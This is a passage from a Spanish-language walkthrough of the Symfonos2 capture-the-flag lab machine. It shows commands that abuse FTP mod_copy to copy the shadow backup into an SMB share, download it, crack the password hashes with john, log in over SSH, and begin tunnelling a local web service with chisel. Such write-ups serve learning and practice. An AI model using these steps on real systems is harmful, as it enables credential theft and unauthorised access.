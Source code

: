 ![SevPic]({{ '/assets/img/symfonos2/20240218125236.png' | relative_url }}){: .center }

Como podemos ver en el código del exploit, está empleando copy from(cpfr) y copy to(cpto) así que vamos a tratar de explotarlo manualmente. Para ello, nos conectamos al servicio ftp, como sabemos gracias al archivo log.txt que encontramos en el samba, que hay una copia del shadow en /var/backups y que la ruta que se está compartiendo por smb es /home/aeolus/share vamos a tratar de copiar el shadow al smb:

`````sh
nc 10.0.0.37 21
site cpfr /var/backups/shadow.bak
site cpto /home/aeolus/share/shadow.bak
`````

![EigPic]({{ '/assets/img/symfonos2/20240218130425.png' | relative_url }}){: .center }

Ahora podemos descargarlo al igual que hicimos con el archivo log.txt

````sh
smbmap -H 10.0.0.37 --download anonymous/shadow.bak
`````

Ahora simplemente podemos copiar los hashes y tratar de crackearlos con john

![NinPic]({{ '/assets/img/symfonos2/20240218131102.png' | relative_url }}){: .center }

````sh
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
`````

Después de unos minutos vemos que se crackeo uno de los hashes:

![TenPic]({{ '/assets/img/symfonos2/20240218131257.png' | relative_url }}){: .center }

Si probamos a loguearnos por ssh vemos que la contraseña corresponde con aeolus:

````sh
ssh aeolus@10.0.0.37
`````

Una vez logueamos es hora de fuzzear el sistema. Al cabo de un tiempo vemos que hay un servicio corriendo por el puerto 8080. Como netstat no está instalado podemos usar **ss -tan** para ver la información que viaja por TCP.

Si tratamos de conectarnos con netcat al servicio nos devuelve un encabezado HTTP.

````sh
ss -tan // This will display the TCP information in the system
nc localhost 8080
<anything>

HTTP/1.1
`````

Vamos a tratar de ver el contenido de la web en nuestro navegador usando chisel, ya que al estar corriendo de forma local en la máquina víctima no podemos verlo.
Para ello, primeramente tendremos que descargar [chisel](https://github.com/jpillora/chisel/releases) en nuestra máquina.
